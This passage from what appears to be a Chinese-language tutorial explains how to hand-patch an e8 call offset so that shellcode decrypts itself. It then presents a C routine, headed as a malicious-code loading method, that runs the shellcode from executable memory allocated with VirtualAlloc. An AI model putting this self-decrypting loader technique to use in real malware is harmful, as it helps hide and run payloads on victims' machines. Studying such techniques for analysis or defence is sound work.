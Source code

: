简而言之就是对于`e8`这样的操作码，当在 CPU 是 64 位模式下的时候，操作数会被强制为 64 位的，由于我们现在是运行在 32 位的模式下，这点我们先不关注；`e8`后应该跟上一个**32 位的相对偏移**，通过当前下一条指令的地址加上这个偏移，才是 CPU 在解析 e8 这条指令的时候，该跳转的函数地址。

#### 偏移计算方式

那么我们可以在调用 shellcode 的代码处下个断点，通过在反汇编里分别查看 decrypt 函数以及`e8 call`下一条指令的地址，进而算出这里我们需要的相对偏移，也就是`decrypt函数的地址-e8下一条指令的地址`：

![image.png](assets/1704791749-5250274f875870de81a21f4a55e9aae6.png)

![image.png](assets/1704791749-0b42a6ef6c647967466f345fc78a087e.png)

![image.png](assets/1704791749-acbd6fcb51b28a134eeaae6b144342be.png)  
最后将算出的四字节偏移填充到`e8`后面就好了，比如我这里按照 Windows 的小端存储方式，最后的结果就应该是`e8 2b 10 06 00`：

![image.png](assets/1704791749-a005fc4eb62693ef41aba80bf34ea4df.png)  
至此，我们完成了自己调用解密函数，对自己进行解密的完整代码编写。

### 恶意代码加载方式

#### 创建线程加载

动态涉及到了 shellcode 的加载方式。这里我选择使用创建线程的方式加载。  
1、创建 ThreadProc 函数

```php
DWORD WINAPI ThreadProc(LPVOID lpParameter)
{
    //申请内存
    if ((p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)) == NULL)
    {
        return 1;
    }
    //复制 shellcode
    if (!(memcpy(p, shellcode, sizeof(shellcode))))
    {
        return 1;
    }

    //函数指针赋值
    CODE code = (CODE)p;
    //调用
    code();
    return 0;
}
```
